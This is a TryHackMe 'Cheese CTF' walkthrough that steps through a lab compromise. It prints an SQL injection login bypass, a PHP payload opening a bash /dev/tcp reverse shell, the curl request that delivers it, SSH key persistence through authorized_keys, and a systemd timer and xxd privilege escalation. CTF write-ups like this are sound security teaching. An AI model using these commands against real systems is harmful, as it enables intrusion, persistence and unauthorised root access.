 ```yaml
---
title: "Cheese CTF Room"
date: 2025-07-25
categories: [TryHackMe]
tags: [vm, ctf, nmap, linux, reverse shell, privilege escalation]
excerpt: "Cheese CTF Room TryHackMe"
---
```


## Introduction

This is my resolution of Cheese CTF Room of TryHackMe.

## Scanning the target

I used Nmap command to scan for open ports on the target machine and discovered three accessible ports:

- Port 21: FTP service
- Port 22: SSH service
- Port 80: HTTP web server


<figure class="text-center">
  <img src="../assets/img/CheeseCTF_nmap.png" alt="Nmap command">
  <figcaption><em>Nmap command</em></figcaption>
</figure>

Exploring the HTTP connection, I found a page with login: 

<figure class="text-center">
  <img src="../assets/img/CheeseCTF_login.png" alt="Cheese CTF page">
  <figcaption><em>Cheese CTF page</em></figcaption>
</figure>

## SQL Injection

I suspected an SQL injection vulnerability, so I started testing with sqlmap:
```
sqlmap -u "http://10.10.205.255/login.php" --data="username=test&password=test" --batch
```

Sqlmap tests if any parameters (username, password, or the URL itself) are vulnerable to SQL injection.


<figure class="text-center">
  <img src="../assets/img/CheeseCTF_sqlmap.png" alt="sqlmap results">
  <figcaption><em>Sqlmap results</em></figcaption>
</figure>

After these results, I could realise what the username and password were so I tried: ```' || 1=1;-- -``` as the username and ```'``` as password and get in!!

## Reverse Shell Access

Then, to get a Reverse Shell, I generated a PHP payload with the command:
```
echo <?php exec("/bin/bash -c 'bash -i >& /dev/tcp/10.23.149.56/4444 0>&1'"); ?> > payload.txt
```
Then, when run on the server, will open a connection back to my machine.


Then, I sent the payload to the server using:: ```curl "http://10.10.187.67/secret-script.php?file=$(cat payload.txt)"```

Open another terminal and run ```rlwrap nc -lvnp 4444```
And it's possible to enter the target machine!!

## File Exploration

Now to explore the files, always got "Permission denied" erros. So,  searched for writable files and found that ```~/.ssh/authorized_keys``` was writable, where ussually the SSH keys are saved.

On my own machine, I got my SSH public key with ```cat ~/.ssh/id_rsa.pub```, and add it to the authorized_keys:
```echo 'ssh-ed25519 sshKey kali@kali' >> /home/comte/.ssh/authorized_keys```

After this I write ```cat user.txt``` and find the firts THM flag!!

## Sudo + Timer Exploit

For the root.txt flag, I started with sudo command:


<figure class="text-center">
  <img src="../assets/img/CheeseCTF_sudoCommand.png" alt="Sudo command">
  <figcaption><em>Sudo command</em></figcaption>
</figure>


So, I explored the exploit.timer file, and edit it to ```OnBootSec=5s```.

I then reloaded the systemd daemon and started the timer service:

Taking a look at the exploit.service:
```
sudo systemctl daemon-reexec
sudo systemctl start exploit.timer
```
After confirming that the timer was active, I explored exploit.service:

<figure class="text-center">
  <img src="../assets/img/CheeseCTF_exploitService.png" alt="exploit.service">
  <figcaption><em>Exploit.service</em></figcaption>
</figure>


I went digging and found this [XXD Documentation](https://gtfobins.github.io/gtfobins/xxd/?source=post_page-----5c1e2193880b---------------------------------------)

After a few tries I was abel to get the flag with ```opt/xxd "$LFILE" | xxd -r```!!

## Conclusion
This room was a fun mix of enumeration, SQLi exploitation, reverse shell tactics, and a clever privilege escalation via systemd timers.